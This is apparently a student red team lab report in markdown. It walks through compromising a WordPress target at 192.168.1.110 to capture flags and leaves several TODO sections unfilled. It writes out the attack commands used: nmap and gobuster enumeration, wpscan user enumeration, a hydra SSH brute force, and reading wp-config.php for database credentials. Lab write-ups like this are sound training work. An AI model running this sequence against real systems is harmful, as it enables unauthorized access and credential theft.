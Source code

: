 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  ![](../images/nmap-a1.png)
  ![](../images/nmap-a2.png)


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0
- OS version Windows 6.1 (Smba 4.2)


  

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: **flag1{b9bbcb33e1b80be759c4e844862482d}**
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - **`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`**

      - Upon inspection of the source code of service page flag1 was identified in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: **flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - **`hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`**

     - Connecting via SSH as Michael
     - **`ssh michael@192.168.1.10`**

     - Searching for the flag
     - **`find -type f -iname ‘flag*’ 2>dev/null`**
    
  - [Flag 3 Screen Shot](../images/flag34-2.png), Flag3.txt: **flag3{afc01ab56b50591e7dccf93122770cd2}**

    - Inspecting wp-config.php to look for root access password to MySQL database
    - **`cat /var/www/html/wordpress/wp-config.php`**

    - Loging on to the MySQL server
    - **`mysql -u root -p`**

    - Inspecting MySQL tables  for flags
    - **`show databases;`**
    - **`show tables`**
    - **`select * from wp_posts;`**

